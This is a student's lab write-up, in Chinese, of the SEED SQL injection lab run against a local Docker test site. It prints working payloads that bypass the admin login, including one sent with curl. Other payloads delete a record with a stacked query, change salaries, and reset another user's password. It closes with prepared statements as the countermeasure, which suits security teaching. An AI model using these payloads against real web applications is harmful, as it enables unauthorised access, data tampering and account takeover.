#实验六：SQL Injection Attack Lab

## Table of Contents
- [Table of Contents](#table-of-contents)
- [1 Overview](#1-overview)
- [2 Lab Environment](#2-lab-environment)
- [3 Lab Tasks](#3-lab-tasks)
  - [3.1 Task 1: Get Familiar with SQL Statements](#31-task-1-get-familiar-with-sql-statements)
  - [3.2 Task 2: SQL Injection Attack on SELECT Statement](#32-task-2-sql-injection-attack-on-select-statement)
    - [3.2.1 Task 2.1: SQL Injection Attack from webpage](#321-task-21-sql-injection-attack-from-webpage)
    - [3.2.2 Task 2.2: SQL Injection Attack from command line](#322-task-22-sql-injection-attack-from-command-line)
    - [3.2.3 Task 2.3: Append a new SQL statement](#323-task-23-append-a-new-sql-statement)
  - [3.3 Task 3: SQL Injection Attack on UPDATE Statement](#33-task-3-sql-injection-attack-on-update-statement)
    - [3.3.1 Task 3.1: Modify your own salary](#331-task-31-modify-your-own-salary)
    - [3.3.2 Task 3.2: Modify other people’ salary](#332-task-32-modify-other-people-salary)
    - [3.3.3 Task 3.3: Modify other people’ password](#333-task-33-modify-other-people-password)
  - [3.4 Task 4: Countermeasure — Prepared Statement](#34-task-4-countermeasure--prepared-statement)


## 1 Overview

## 2 Lab Environment

修改 `/etc/hosts` 文件，将 `www.seed-server.com` 指向 `10.9.0.5`：



创建并启动容器：



## 3 Lab Tasks

### 3.1 Task 1: Get Familiar with SQL Statements

进入 sql-10.9.0.6 的 shell，查看数据库、表，并打印表 `credential` 中 Alice 的相关内容：

```bash
dockps
docksh 54
mysql -uroot -pdees
show databases;
use sqllab_users;
show tables;
select * from credential where Name='alice';
```





### 3.2 Task 2: SQL Injection Attack on SELECT Statement

#### 3.2.1 Task 2.1: SQL Injection Attack from webpage

在浏览器中访问 <www.seed-server.com>，界面如下：


先登入管理员账号看一下都有哪些内容，输入用户名 `admin` 和密码 `seedadmin` 登入，是可以看到所有人的信息的：



下面尝试用 SQL 注入攻击，在用户名输入 `admin'#`，成功登入：



#### 3.2.2 Task 2.2: SQL Injection Attack from command line

接下来在命令行中使用 curl 来传入 SQL 语句，需要注意的是一些特殊字符需要使用 url 编码，比如空格 `%20`，单引号 `%27`，井号 `%23` 等等。先尝试一下正常的登入，在地址栏中可以看到为 `http://www.seed-server.com/unsafe_home.php?username=admin&Password=seedadmin`，使用 curl 登入：


```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=admin&Password=seedadmin'
```



下面尝试 SQL 注入攻击，传入用户名为 `admin'%23` 登入：

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password='
```

成功获取到了所有人的信息：



#### 3.2.3 Task 2.3: Append a new SQL statement

下面尝试在一次注入中使用多个 SQL 语句。比如登入 Admin 账号并删除表中的 Samy 的信息，在用户名栏输入：`admin';delete from credential where name='samy'#`，但执行时出现以下错误：



原因在于该页面使用的是单查询语句，进入 `www-10.9.0.5` 的 shell，编辑 `unsafe_home.php`，将其中的 `query` 改为 `multi_query`，并重启 apache2 服务：

```bash
dockps
docksh b9
nano /var/www/SQL_Injection/unsafe_home.php
service apache2 restart
```



再次尝试上述攻击，成功删除了 Samy 的信息：



### 3.3 Task 3: SQL Injection Attack on UPDATE Statement

#### 3.3.1 Task 3.1: Modify your own salary

登入 Alice 的账号，点击编辑档案，可以看到可编辑的信息中并没有 salary：



所以通过编辑其他内容，通过 SQL 注入攻击来修改 salary。在用户名栏输入 `a', salary='999999' where name='alice';#`，成功修改了 salary：



#### 3.3.2 Task 3.2: Modify other people’ salary

下面尝试在 Alice 的账号中修改 Boby 的工资信息，输入 `a', salary='1' where name='boby';#`，保存后到后台查看，Body 的工资信息被成功修改为了 1：



#### 3.3.3 Task 3.3: Modify other people’ password

接下来的任务是修改其他人的密码，在数据库后台中可以看到密码是加密存储的，所以在修改时也需要加密。在 Alice 的账号中输入 `a', password=sha1(111111) where name='boby';#`，保存后使用 `111111` 登入 Boby 的账号，成功登入：



### 3.4 Task 4: Countermeasure — Prepared Statement

在前面的攻击中，SQL 语句之所以能够被执行，是因为用户输入的内容直接被**拼接**到了 SQL 语句中，所以只要用户输入的内容中包含了 SQL 语句的关键字，就可以被执行。

那么如何避免这种攻击呢？一种方法是使用预编译语句，即将 SQL 语句和用户输入的内容分开，即先预定好 SQL 语句的格式作为模板，用户输入的内容只作为参数传入 SQL 语句中，而不是直接拼接。

访问 <www.seed-server.com/defense>，在用户名输入 `admin'#`，在没有开启保护措施的情况下，可以成功登入：



在 `www-10.9.0.5` 的 shell 中，编辑页面：

```bash
nano /var/www/SQL_Injection/defense/unsafe.php
```



将 SQL 语句的拼接改为预编译语句，即将 `query` 改为 `prepare`，并将参数用 `?` 代替，最后使用 `bind_param` 将参数绑定到 SQL 语句中，重启 apache2 服务：

```bash
service apache2 restart
```

再次在浏览器中输入 `admin'#`，此时已经无法登入了：


